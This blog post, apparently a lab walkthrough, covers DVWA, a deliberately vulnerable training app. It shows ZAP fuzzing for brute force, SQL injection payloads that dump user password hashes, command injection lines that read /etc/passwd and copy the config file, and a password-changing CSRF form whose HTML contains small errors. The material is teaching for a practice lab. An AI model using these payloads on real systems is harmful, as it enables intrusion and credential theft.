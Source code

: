 ```yaml
---
layout: post
title: DVWA - Part 1
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, SQL injection, Brute Force, CSRF, command injection]

---
```


Damn Vulnerable Web App [DVWA](http://www.dvwa.co.uk/)  is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment. It is perfect to practice some of the most common web vulnerabilities, with various levels of difficulty.

![]({{ site.baseurl }}/images/DVWA-1.jpg)

For some challenges we are going to use OWASP ZAP, so we have to configure the proxy. In OWASP ZAP, we need to go to Tools>Options>Local Proxies and make sure that the address is localhost and the port 8080. On the hand, there many ways to configure the proxy settings in Firefox, for example: using the Firefox settings and changing the proxy to manual using localhost 8080 or using a Firefox extension. 

Now, it is time to scan for vulnerabilities.

## Brute force

The main goal is to get the login name and password. Here we can use combinations of words, numbers and special symbols and dictionary files.

LOW - MEDIUM - HIGH:

Using a wordlist. To do this, we try to log in as admin with any password. It will give us an error message like user/password is not correct, but if we use the Fuzz option we can do a dictionary brute force. 

![]({{ site.baseurl }}/images/DVWA-2.jpg)

We add a payload (a wordlist) and, in the options section, we change the "delay when fuzzing" to 100ms.

Once the Fuzzer has finished, we will have to sort the Size Response Body from highest to lowest (also interesting to see the State column) to see which is the correct password. In this case the pass is password.

![]({{ site.baseurl }}/images/DVWA-3.jpg)

## SQL injection

In a SQL Injection (SQLi) we can execute malicious SQL statements that control the database server.

LOW - MEDIUM - HIGH:

LOW - HIGH: We can repeat the same steps as in Brute Force with some SQL wordlist or we can use some injections like: 

- ' OR '1' = '1
- ' OR 0 = 0# 
- '=0# 

![]({{ site.baseurl }}/images/DVWA-4.jpg)

To get the passwords, we have followed these SQL injections trying to guess the tables and columns that the database has.

- 1' or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1' or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1' or 1=1 union select  user, password from users#

Then, we can crack the hashes with this [tool](https://crackstation.net/).

MEDIUM: We have to select the user ID, so we can modify the request manually using SQL injections.

- 1 or 1=1 
- 1 or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1 or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1 or 1=1 union select  user, password from users#

## Command injection

Sending operating system commands in an empty field.

LOW - MEDIUM - HIGH:

LOW: 
- 127.0.0.1; ls
- 127.0.0.1; ls ../../config
- 127.0.0.1; cp ../../config/config.inc.php ../../a.php
- 127.0.0.1; cat /etc/passwd | grep root 
- 127.0.0.1;ifconfig
- 127.0.0.1;ifconfig /all

MEDIUM-HIGH:

![]({{ site.baseurl }}/images/DVWA-5.jpg)

Using the above commands, we change ';' to '|'.

## CSRF

Cross Site Request Forgery (CSRF) is an attack that forces an end user to perform unwanted actions on a web application in which they are currently authenticated.

LOW - MEDIUM - HIGH:

Using part of the HTML code, we can create our own.

```
<form action="html://192.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
    <h1>Click on, pleasee>/h1>
    <input type="hidden" AUTOCOMPLETE="off" name="password_name" value="pass123"> <br/>
    <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="pass123"> <br/>
    <input type="submit" name="Change" value="Change"> <br/>
    // Only for HIGH level: <input type="hidden" 
    // name="user_token" value="1778659551266655449ddv4499f"/>
    </form>
```



